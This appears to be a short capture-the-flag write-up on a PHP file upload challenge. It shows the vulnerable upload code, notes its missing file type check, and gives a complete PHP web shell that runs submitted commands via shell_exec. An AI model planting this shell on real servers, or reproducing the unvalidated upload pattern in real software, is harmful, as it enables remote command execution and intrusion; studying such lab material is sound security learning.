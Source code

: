 ```html
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


No filetype valiation.  
Simple PHP shell

```php
<!-- By justin-p (https://raw.githubusercontent.com/justin-p/sec-stuff/master/php/simple_shell/simple_shell.php) based of https://github.com/artyuum/Simple-PHP-Web-Shell/ -->
<?php if (empty($_POST['cmd'])) {$cmd = "";} elseif (!empty($_POST['cmd'])) {$cmd = shell_exec($_POST['cmd']);} ?>
<form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST['cmd'])) {htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form>
<?php if (!$cmd && $_SERVER['REQUEST_METHOD'] != 'POST'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre> <?php elseif (!$cmd && $_SERVER['REQUEST_METHOD'] == 'POST'): ?><small>No results.</small> <?php endif; ?>
```
